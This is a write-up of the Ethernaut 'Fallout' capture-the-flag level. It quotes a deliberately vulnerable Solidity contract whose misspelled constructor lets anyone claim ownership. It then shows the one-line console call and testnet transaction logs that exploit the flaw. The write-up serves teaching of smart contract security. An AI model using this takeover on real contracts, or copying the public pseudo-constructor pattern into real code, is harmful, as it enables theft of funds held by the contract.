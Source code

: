 # Level 2: Fallout

## Game Description

This is the level 2 of [**Ethernaut**](https://ethernaut.openzeppelin.com/) game. It involves Solidity contract fallback function and the conversion between units wei & ether. We can see the following game description:

> Claim ownership of the contract below to complete this level.
>
> Things that might help
>
> - Solidity Remix IDE
>
> ```solidity
> // SPDX-License-Identifier: MIT
> pragma solidity ^0.6.0;
> 
> import 'openzeppelin-contracts-06/math/SafeMath.sol';
> 
> contract Fallout {
>   
>   using SafeMath for uint256;
>   mapping (address => uint) allocations;
>   address payable public owner;
> 
> 
>   // constructor
>   function Fal1out() public payable {
>     owner = msg.sender;
>     allocations[owner] = msg.value;
>   }
> 
>   modifier onlyOwner {
> 	        require(
> 	            msg.sender == owner,
> 	            "caller is not the owner"
> 	        );
> 	        _;
> 	    }
> 
>   function allocate() public payable {
>     allocations[msg.sender] = allocations[msg.sender].add(msg.value);
>   }
> 
>   function sendAllocation(address payable allocator) public {
>     require(allocations[allocator] > 0);
>     allocator.transfer(allocations[allocator]);
>   }
> 
>   function collectAllocations() public onlyOwner {
>     msg.sender.transfer(address(this).balance);
>   }
> 
>   function allocatorBalance(address allocator) public view returns (uint) {
>     return allocations[allocator];
>   }
> }
> ```

## Solution

This level can only be completed if we are `owner` of this contract.

First of all - intended constructor declaration has typo, `Fal1out` instead of `Fallout`. So it's just treated as a normal method not a constructor. Secondly, even if it wasn't a typo, that is - constructor was declared as `Fallout`, it won't even compile! Because target contract uses `v0.6.0`. Older versions of Solidity had this kind of constructor declaration. It was mandated even in `v0.5.0`  - *"Constructors must now be defined using the constructor keyword"*.

```solidity
> await contract.Fal1out()
⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x80402be691d2ea6c0affac3d5d3258aa02ed0a7cf846a43be579b6e3c5e83701
⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x80402be691d2ea6c0affac3d5d3258aa02ed0a7cf846a43be579b6e3c5e83701
{tx: '0x80402be691d2ea6c0affac3d5d3258aa02ed0a7cf846a43be579b6e3c5e83701', receipt: {…}, logs: Array(0)}
> await contract.owner() == player
true
```

Submitting level instance.

```solidity
╚(▲_▲)╝ Submitting level instance... <  < <<PLEASE WAIT>> >  >
⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x1726d8a80fcadcf1c43512f550da77f911d0657ff231535c399397fe7a6eb145
⛏️ Mined transaction ⛏ https://goerli.etherscan.io/tx/0x1726d8a80fcadcf1c43512f550da77f911d0657ff231535c399397fe7a6eb145
O=('-'Q) Well done, You have completed this level!!!
O=('-'Q) Well done, You have completed this level!!!
O=('-'Q) Well done, You have completed this level!!!
```

Level completed! [**Go to the next level**](Coin Flip.md).


